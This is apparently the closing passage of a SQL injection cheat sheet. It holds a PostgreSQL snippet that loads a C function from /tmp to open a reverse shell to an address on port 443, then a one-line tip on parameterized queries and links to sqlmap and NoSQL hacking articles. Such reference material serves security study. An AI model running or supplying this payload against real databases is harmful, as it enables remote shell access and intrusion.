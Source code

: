 Code: sql

```sql
CREATE FUNCTION rev_shell(text, integer) RETURNS integer AS '/tmp/pg_rev_shell', 'rev_shell' LANGUAGE C STRICT;
SELECT rev_shell('127.0.0.1', 443);
```

## Defending Against SQL Injection

Use `parameterized queries`!
## Articles

|URL|
|---|
|[https://www.binarytides.com/sqlmap-hacking-tutorial/](https://www.binarytides.com/sqlmap-hacking-tutorial/)|
|[https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html](https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html)|